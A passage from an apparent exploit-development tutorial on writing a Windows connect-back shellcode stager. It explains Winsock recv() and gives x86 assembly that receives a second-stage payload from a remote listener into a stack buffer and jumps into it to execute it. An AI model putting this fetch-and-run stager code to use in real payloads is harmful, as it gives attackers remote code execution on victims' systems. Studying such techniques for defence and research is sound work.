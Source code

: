 ## recv

Now the stager can reach out and connect to a listening port, but it has to be told to accept data it is sent and what to do with it. The final step involving Winsock calls the `recv()` function.

```c
int recv(
 _In_ SOCKET s,
 _Out_ char *buf,
 _In_ int len,
 _In_ int flags
);
```

This function takes the socket descriptor and a few other important arguments. The buf argument is a pointer to the buffer created for the received data. The len argument is the length of the buffer that should be created for the incoming data. Then some flags can be set, but they won’t be used in this stager.

Think about the Python command` s.recv(1024)`. It takes the previously referenced `s` variable, a socket descriptor, and tells it to receive incoming data up to 1024 bytes. That’s roughly what will be done here to complete the stager.

This is what it looks like in Assembly:

```
; Use recv() to receive the new buffer of stage 2 shellcode

INC AH             ; Increment EAX to 0x0100 as connect should have returned 0
INC AH             ; Increment EAX to 0x1000
SUB ESP,EAX        ; Allocate 4096 bytes of stack space for use in the recv call
MOV EBP,ESP        ; Save the pointer to the buffer in EBP
XOR ECX,ECX        ; Zero ECX for use as the flags argument
PUSH ECX           ; Push flags arg -- 0 for no flags
PUSH EAX           ; Push len arg -- Size of the buffer for incoming shellcode, 4096
PUSH EBP           ; Push buf arg -- Pointer to output buffer
PUSH EDI           ; Push s arg -- Descriptor returned by WSASocketA

MOV EBX,0x71AB676F ; MOV EAX,WS2_32.recv
CALL EBX           ; CALL recv
```

Calling connect and then recv like this allows for a clever use of connect’s success code. EAX will hold zero if connect was successful, so EAX can be incremented to help the stager make efficient use of registers. Much of this code comes from Skape’s paper and the Connectback IAT example.

With this bit of code added, the reverse connection will now accept returned data and move it into a buffer.

## JMP

The final step is moving to recv’s buffer. That just requires a simple JMP instruction.

```
; Jump to the stage 2 shellcode and execute

JMP EBP            ; Jump into the buffer that was read
```
